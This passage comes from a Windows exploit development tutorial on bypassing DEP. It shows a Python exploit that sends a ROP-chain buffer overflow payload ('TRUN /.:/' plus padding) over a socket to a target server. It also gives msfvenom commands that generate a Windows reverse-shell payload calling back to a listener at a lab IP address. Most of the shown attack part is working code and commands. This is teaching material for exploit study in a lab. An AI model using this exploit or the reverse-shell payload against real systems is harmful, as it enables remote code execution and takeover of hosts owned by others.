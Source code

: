 ```python
        0x758b9b4c,  # POP EAX # RETN [kernel32.dll] ** REBASED ** ASLR
        0x90909090,  # nop

        #[---INFO:pushad:---]
        0x758ec2a0,  # PUSHAD # RETN [kernel32.dll] ** REBASED ** ASLR
        ]
        return ''.join(struct.pack('<I', _) for _ in rop_gadgets)



rop_chain = create_rop_chain()


#JMP ESP 0x625011AF: \xAF\x11\x50\x62

payload = "A" * 2003
payload += rop_chain
payload += "\xcc" * (3000- len(payload))

try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((RHOST, RPORT))
        s.recv(1024)
        print("[+] Sending exploit!")
        s.send("TRUN /.:/" + payload)
        print("[+] Evil buffer sent...")
        s.close()
except:
        print("[-] Could not connect to server!")

```


After modifying and sending the exploit, we hit our breakpoint after a series of \x90's (NOPs), which means it worked :) We execute the breakpoint that was placed on the stack. We made the stack executable!

You can place anything after the ROP chain, such as `\xcc`, which is a breakpoint or `\x90's` or even your shellcode.



![StackExecutable.png](/Windows-User-Mode-Exploit-Development-DEP-Part-4/ad2bd7af55e746938d2cc7078f457fef.png)

To generate a reverse shell, you can use the following:

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.16.128 LPORT=443 EXITFUNC=thread -b '\x00' -f c`

or 

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.16.128 LPORT=443 EXITFUNC=thread -b '\x00' -f c`

